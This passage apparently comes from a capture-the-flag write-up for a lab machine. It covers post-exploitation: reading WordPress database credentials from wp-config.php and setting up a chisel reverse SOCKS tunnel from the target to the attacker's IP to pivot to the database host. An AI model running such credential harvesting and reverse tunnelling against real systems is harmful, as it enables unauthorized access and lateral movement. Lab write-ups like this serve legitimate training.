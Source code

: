Btw, you can do ```diff --color cnext_exploit.py rce.py``` to see all changes

![alt text](../assets/image_bigbang/foothold.png)

## SSH

So we are in a container, let's try to escape this

```bash
# /var/www/html/wordpress$ cat wp-config.php

/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', 'wp_password' );

/** Database hostname */
define( 'DB_HOST', '172.17.0.1' );
```
Upload chisel and pivot on ```172.17.0.1```

```bash
# on my machine
chisel server -p 9999 --socks5 --reverse &
# on the target machine
./chisel64 client 10.10.14.46:9999 R:socks &
```
Now we can access to the db 
